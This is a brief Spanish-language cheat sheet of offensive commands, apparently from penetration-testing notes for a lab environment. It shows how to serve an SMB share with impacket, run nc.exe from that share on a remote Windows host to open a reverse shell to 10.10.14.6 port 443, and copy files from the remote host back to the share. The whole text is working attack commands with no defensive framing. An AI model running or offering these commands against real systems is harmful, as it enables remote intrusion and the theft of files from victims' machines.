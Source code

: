 Montamos servidor SMB en local 
`impacket-smbserver smbFolder $(pwd) -smb2support`

Desde equipo remoto, hacer uso de nc.exe en el servidor SMB local para entablar una reverse shell
`\\10.10.14.6\smbFolder\nc.exe -e cmd 10.10.14.6 443`

Transferir fichero desde máquina remota a servidor SMB en local
`copy <fichero> \\10.10.14.6\smbFolder\<fichero>`